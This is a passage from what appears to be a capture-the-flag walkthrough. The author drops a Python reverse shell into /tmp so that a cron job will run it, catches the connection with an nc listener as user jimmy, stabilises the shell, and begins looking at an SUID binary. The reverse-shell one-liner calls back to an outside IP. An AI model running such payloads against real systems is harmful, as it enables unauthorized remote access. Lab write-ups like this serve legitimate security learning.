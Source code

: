 But checking the `/tmp` directory doesn't show anything

```
martin@debian:/tmp$ ls
vmware-root
```

So what i did next was to create a file called `sekurity.py` which has a python reverse shell content and saved in the `/tmp` directory

In hope that when cron runs again i'll get shell as jimmy

```
martin@debian:/tmp$ nano sekurity.py 
martin@debian:/tmp$ cat sekurity.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.66",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
martin@debian:/tmp$
```

Now we wait for 5minutes 

After 5mins we get shell as jimmy

```                                                                                                                                                                                                                
┌──(mark__haxor)-[~]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.49.66] from (UNKNOWN) [192.168.66.49] 55861
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1002(jimmy) gid=1002(jimmy) groups=1002(jimmy)
$ 
```

Now lets stabilze the shell 

```
python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
CTRL + Z
stty raw -echo;fg
```

The user's directory has an suid file 

```
jimmy@debian:~$ ls
networker
jimmy@debian:~$ ls -l networker 
-rwsrwxrwx 1 root root 7496 Jun  9  2017 networker
jimmy@debian:~$
```

Running it looks it pings the localhost ip

```
jimmy@debian:~$ ./networker
*** Networker 2.0 *** 
eth0      Link encap:Ethernet  HWaddr 00:50:56:bf:7c:b8  
          inet addr:192.168.66.49  Bcast:192.168.66.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:febf:7cb8/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:203103 errors:0 dropped:0 overruns:0 frame:0
          TX packets:172088 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:22232553 (21.2 MiB)  TX bytes:59118840 (56.3 MiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
```